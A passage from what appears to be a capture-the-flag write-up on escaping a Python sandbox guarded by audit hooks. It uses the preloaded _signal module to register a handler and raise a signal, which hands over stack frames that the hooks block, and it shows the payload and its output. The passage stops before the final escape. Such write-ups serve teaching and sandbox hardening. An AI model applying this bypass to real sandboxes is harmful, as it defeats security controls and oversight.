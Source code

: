 meaning it triggers when we open a file that is going to be used as a library... But what if **it is already loaded !** Like in our jail with ``from sys import addaudithook`` and ``from os import _exit`` !

```python
Math expression: __import__('sys')

# Output
<module 'sys' (built-in)>
```
```python
Math expression: __import__('sys').modules.keys()

# Output
dict_keys(['sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', 'winreg', '_io', 'marshal', 'nt', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', 'encodings.cp1252', '_signal', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', '_winapi', 'ntpath', 'os.path', 'os', '_sitebuiltins', '_distutils_hack', 'site'])
```

Wow 🤩 That's a lot of modules to work with ! Most are out of audithooks' events too 😈
If we ignore the Windows modules (no I won't apology for that) we can search in each frozen modules for gold.
I will spoil it, ``_signal`` is where gold is hidden. There is some good stuff in ``_frozen_importlib`` and ``_imp`` too but when they go to read a file they execute ``os.listdir``, raising an event 😭 You can also tinker with *debug traces*, ``_thread`` and other *builtin modules* (loadable with ``_frozen_importlib``) but in my testing I didn't achieve anything substantial (*skill issue* 🙄)
<br>
### Signaling we escaped 😎
Audithooks block ``sys._current_frames``, ``sys._getframe`` and ``sys._getframemodulename`` to protect the code from being tampered with. We can't call this functions but what if the ``frame`` object came to us directly 😇 ?
For that we are going to use [signals](https://docs.python.org/3/library/signal.html).  We can create a signal using ``signal.signal(signalnum, handler)`` ([ref](https://docs.python.org/3/library/signal.html#signal.signal))
> *signalnum* : the signal number 🆗
> 
> The _handler_ is called with two arguments: the **signal number** and the **current stack frame** 🤑

```python
signal.signal(2, lambda n,f:print(f))
```

To launch our trojan signal we just need to raise it using ``raise_signal(signalnum)``

```python
(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f)),s.raise_signal(2)

# Output
<frame at 0x000001F3EA9A8E00, file '<code>', line 1, code <module>>
(<module '_signal' (built-in)>, <built-in function default_int_handler>, None)

# dir(f)
['__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', 
'__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'f_back', 'f_builtins', 'f_code', 'f_globals', 'f_lasti', 'f_lineno', 'f_locals', 'f_trace', 'f_trace_lines', 'f_trace_opcodes']

# f_locals
```